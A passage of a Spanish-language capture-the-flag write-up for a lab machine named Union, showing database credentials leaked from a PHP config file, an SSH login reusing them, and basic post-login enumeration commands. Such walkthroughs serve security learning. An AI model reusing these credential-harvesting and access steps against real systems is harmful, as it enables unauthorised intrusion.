 ```bash
Sorry, <?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
 you are not eligible due to already qualifying.
```

Ya tenemos credenciales para conectarnos por SSH como `uhc` a la maquina.

Procedemos a conectarnos por SSH como el usuario `uhc`:
```bash
$ ssh uhc@10.10.11.128

The authenticity of host '10.10.11.128 (10.10.11.128)' can't be established.
ED25519 key fingerprint is SHA256:hE6H4DrsHebfs+gclhz9SL77tMpy8aKR3vp8Y0NRDvY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.128' (ED25519) to the list of known hosts.
uhc@10.10.11.128's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Nov  8 21:19:42 2021 from 10.10.14.8
uhc@union:~$ 
```

Nos metemos por SSH a la maquina Victima. Procedemos a Enumerar el Sistema como Siempre:

```bash
uhc@union:~$ id
uid=1001(uhc) gid=1001(uhc) groups=1001(uhc)
uhc@union:~$ whoami
uhc
uhc@union:~$ uname -a
Linux union 5.4.0-77-generic #86-Ubuntu SMP Thu Jun 17 02:35:03 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
uhc@union:~$ pwd
/home/uhc
uhc@union:~$ ls -la
total 20
drwxr-xr-x 1 uhc  uhc   108 Nov  8 20:51 .
drwxr-xr-x 1 root root   12 Nov  8 12:37 ..
lrwxrwxrwx 1 root root    9 Nov  8 12:53 .bash_history -> /dev/null
-rw-r--r-- 1 uhc  uhc   220 Nov  8 12:37 .bash_logout
-rw-r--r-- 1 uhc  uhc  3771 Nov  8 12:37 .bashrc
drwx------ 1 uhc  uhc    40 Nov  8 20:51 .cache
-rw-r--r-- 1 uhc  uhc   807 Nov  8 12:37 .profile
-rw-r--r-- 1 root root   33 Jan 11 17:08 user.txt
```
